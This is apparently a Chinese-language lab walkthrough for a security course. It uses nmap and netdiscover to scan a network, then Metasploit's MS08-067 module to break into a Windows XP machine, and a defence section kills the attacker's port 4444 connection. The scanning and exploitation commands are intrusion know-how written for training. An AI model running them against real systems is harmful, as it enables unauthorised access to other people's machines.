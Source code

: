 # 系統平台
```
系統平台
  1.software
     a.Application
     b.System OS
  2.Hardware
     a.Security
  ------
  
  cloud IOT Mobile BIOS
```
## 實習目標:安全防護、滲透測試(penetration test)
```
[攻]--->[防]

I.攻擊步驟:
 1.掃描確認網段中有哪些電腦開啟
 2.確定攻擊目標作業系統
 3.確認是否有xxx漏洞
 4.exploitation 開始攻擊
 
[防] -->漏洞掃描
    \__>滲透測試
    
II.防禦步驟
 1.確認異常連線 PORT? UDP
 2.找到PID process
 3.殺掉攻擊者連線
```
## 實戰過程
```

I.攻擊
 1.(KALI):ifconfig --> 找到eth0 獲得本機ip
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk1.PNG)
```
 2.(KALI):netdiscover -r (kali ip)/24 確認目標ip
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk2.PNG)
```
 3.(KALI):尋找目標可能的作業系統和開啟的服務(port) nmap -O (xp id) 收集情資 
    google hacking 找尋相應漏洞
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk3.PNG)
```
 4.(KALI):nmap --script vuln || nmap --script smb-vuln-ms08-067.nse -p445
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk4.PNG)
```
 5.(KALI):開啟攻擊模式
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk5.PNG)
```
 6.(KALI):msfconsole
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk6.PNG)
```
 7.(KALI):search ms08-067(漏洞)
   #找CVE漏洞
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk7.PNG)
```
 8.(KALI):use 複製攻擊碼
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk8.PNG)
```
 9.(KALI):show options 
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk9.PNG)
```
 10.(KALI):set RHOSTS ip 確認攻擊路徑
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk10.PNG)
```
 11.(KALI):run  攻擊開始
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk11.PNG)
```
 12.(KALI):入侵成功 ls dir pwd openvas
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk12.PNG)
```
II.防禦
 1.(XP):netstat -ano
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/def1/def1.PNG)
```
 2.(XP):taskkill /F pid(攻擊者 4444 port)
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/def1/def2.PNG)
```
 3.(XP):成功殺掉攻擊方連線
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/def1/def3.PNG)
```
 
```
## 參考
```
漏洞尋找:
  1.Google
  2.nmap.org (https://nmap.org/)
    ms 08-067(https://nmap.org/nsedoc/scripts/smb-vuln-ms08-067.html)
  3.CVE(https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601)
```
## 補充
```
MAC位址 :每一張網卡上獨一無二的地址

